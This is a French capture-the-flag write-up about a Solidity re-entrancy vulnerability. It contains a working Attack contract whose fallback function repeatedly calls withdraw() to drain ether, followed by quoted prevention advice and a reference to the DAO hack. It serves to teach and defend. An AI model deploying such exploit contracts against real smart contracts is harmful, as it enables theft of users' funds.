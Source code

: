 ### Analyse

Nous avons à faire à un smart contract qui peut-être attaqué avec une Re-entrancy attack. De bonnes ressources sont disponibles sur internet.

Ce type de faille est facilement reconnaissable avec ces types d'appels:

 ```javascript
msg.sender.call.value(_amount)("");
if(msg.sender.call.value(_amount)());
 ```

### Attaque

```javascript
contract Attack {
    Reentrance public original;
    
    constructor(address payable addr) public payable {
        original = Reentrance(addr);
    }
    
    function go() public payable {
        original.donate.value(1 ether)(address(this));
        original.withdraw(1 ether);
    }
    
    function() external payable {
        original.withdraw(1 ether);
    }
}
```

> In order to prevent re-entrancy attacks when moving funds out of your contract, use the [Checks-Effects-Interactions pattern](https://solidity.readthedocs.io/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) being aware that `call` will only return false without interrupting the execution flow. Solutions such as [ReentrancyGuard](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard) or [PullPayment](https://docs.openzeppelin.com/contracts/2.x/api/payment#PullPayment) can also be used.
>
> `transfer` and `send` are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork [Source 1](https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/) [Source 2](https://forum.openzeppelin.com/t/reentrancy-after-istanbul/1742).
>
> Always assume that the receiver of the funds you are sending can be another  contract, not just a regular address. Hence, it can execute code in its  payable fallback method and *re-enter* your contract, possibly messing up your state/logic.
>
> Re-entrancy is a common attack. You should always be prepared for it!
>
> #### The DAO Hack
>
> The famous DAO hack used reentrancy to extract a huge amount of ether from the victim contract. See [15 lines of code that could have prevented TheDAO Hack](https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942).
